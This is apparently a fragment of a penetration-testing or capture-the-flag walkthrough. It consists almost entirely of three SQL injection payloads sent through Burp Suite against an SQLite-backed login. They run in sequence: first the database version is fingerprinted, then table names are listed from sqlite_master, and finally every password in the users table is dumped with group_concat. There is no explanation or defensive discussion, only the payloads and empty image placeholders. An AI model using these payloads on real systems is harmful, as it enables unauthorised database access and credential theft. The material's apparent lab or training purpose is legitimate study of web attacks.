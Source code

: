 **Burp**

```
1'%20UNION%20SELECT%20sqlite_version(),null,null,sqlite_version()--%20-&password='
```

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
' union select group_concat(tbl_name),2,3,4  FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
' union select group_concat(password),2,3,4  FROM users -- -
```
